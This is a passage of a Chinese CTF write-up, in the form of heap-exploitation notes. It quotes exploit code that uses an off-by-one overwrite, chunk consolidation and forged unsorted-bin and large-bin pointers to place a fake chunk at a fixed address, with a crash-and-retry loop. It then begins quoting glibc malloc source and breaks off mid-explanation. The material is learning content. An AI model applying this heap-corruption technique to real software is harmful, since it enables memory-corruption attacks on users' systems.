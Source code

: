 但是unsortbin的bck指针要写啥？
写0x13370800附近的地址是会报错的。size是没办法通过检查的。
其他我们啥都不知道。（做题时）想破脑袋都想不出来。

看看wp接下来：

```c
 free(4)
 update(3, 'h'*(0x18-12))    #off-by-one
 alloc(0x18)     #4
 alloc(0x4d8)    #8
 free(4)
 free(5)         #backward consolidate
 alloc(0x48)     #4

 free(2)
 alloc(0x4e8)    #2
free(2)

storage = 0x13370000 + 0x800
fake_chunk = storage - 0x20

p1 = p64(0)*2 + p64(0) + p64(0x4f1) #size
p1 += p64(0) + p64(fake_chunk)      #bk
update(7, p1)

p2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
p2 += p64(0) + p64(fake_chunk+8)    #bk, for creating the "bk" of the faked chunk to avoid crashing when unlinking from unsorted bin
p2 += p64(0) + p64(fake_chunk-0x18-5)   #bk_nextsize, for creating the "size" of the faked chunk, using misalignment tricks
update(8, p2)
```
在free(2)的时候，和8交叠的freed chunk被放入到了largebin中。

这个时候改写unsortbin chunk和large bin chunk会发生啥？
没啥，就是数据被改写了。

但是一旦又alloc了一个chunk：

```c
        try:
            # if the heap address starts with "0x56", you win
            alloc(0x48)     #2   if success then return to 0x0x133707f0
        except EOFError:
            # otherwise crash and try again
            r.close()
            continue
```
Calloc会如何操作unsortbin和large bin？这个时候就要看看libc源码了：

```c
  mem = _int_malloc (av, sz);
  assert (!mem || chunk_is_mmapped (mem2chunk (mem)) ||
          av == arena_for_chunk (mem2chunk (mem)));
```
调用了`_int_malloc()`函数：由于这个时候fastbin里是空，所以函数会跑到：
